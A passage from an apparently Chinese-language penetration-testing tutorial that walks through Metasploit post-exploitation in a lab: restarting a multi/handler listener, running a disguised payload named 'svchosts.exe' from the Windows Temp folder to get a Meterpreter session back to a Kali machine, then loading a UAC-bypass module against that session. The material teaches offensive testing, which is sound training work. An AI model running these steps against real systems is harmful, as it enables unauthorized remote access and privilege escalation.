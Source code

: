 +   `use exploit/multi/handler`：这会将您带回处理程序

+   `sessions -k 2`：这会终止运行的会话 2

+   `run -j`：这会重新启动 multi/handler 以接受新连接，并将其作为后台作业运行

![](img/e9187b0c-0a39-4744-8bab-76fa71c31647.png)

现在，使用`fflintstone`帐户登录 RDP 会话后，我们将再次从命令行或 PowerShell 运行有效负载。

```
C:\Windows\Temp\svchosts.exe  
```

![](img/7fdc87d0-45c1-4aa8-b2bf-f44ad013fd0e.png)

在下面的截图中，我们可以看到我们的 Kali 盒子上的处理程序已接受连接，并在会话 3 上设置了一个 Meterpreter 会话：

![](img/2f0ef787-59ec-40b2-9ed7-1e53f6a8393c.png)

所以，现在让我们回到绕过 UAC 利用程序，并在新会话中运行它。要做到这一点，运行以下命令：

+   `back`：这将退出处理程序而不终止它，或任何会话

+   `use exploit/windows/local/bypassuac_vbs`：这将使您重新进入模块

+   `set session 3`：这将使利用程序使用会话 3
